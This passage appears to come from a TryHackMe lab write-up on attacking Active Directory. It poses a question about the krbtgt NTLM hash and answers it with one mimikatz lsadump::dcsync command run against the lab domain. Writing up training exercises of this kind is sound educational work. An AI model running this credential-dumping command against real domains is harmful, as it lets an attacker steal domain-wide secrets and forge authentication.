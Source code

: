 <figure><img src="../../.gitbook/assets/image (18) (1) (4).png" alt=""><figcaption></figcaption></figure>

**What is the NTLM hash associated with the krbtgt user?**

**Victim(mimikatz)**

```
lsadump::dcsync /domain:za.tryhackme.loc /user:krbtgt@za.tryhackme.loc
```
